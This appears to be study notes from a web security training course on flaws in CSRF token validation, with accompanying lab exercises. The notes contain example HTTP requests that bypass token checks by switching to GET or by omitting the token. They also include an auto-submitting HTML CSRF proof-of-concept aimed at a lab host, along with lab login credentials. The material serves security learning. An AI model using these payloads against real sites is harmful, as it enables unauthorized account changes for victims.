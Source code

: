 ### Common flaws in CSRF token validation

CSRF vulnerabilities typically arise due to flawed validation of CSRF tokens. In this section, we'll cover some of the most common issues that enable attackers to bypass these defenses.


**Validation of CSRF token depends on request method**

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:
```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 
```

### Lab: CSRF where token validation depends on request method
This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa9005c0485158f84b059ae00830018.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="long&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
### Validation of CSRF token depends on token being present

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net 
```
### Lab: CSRF where token validation depends on token being present
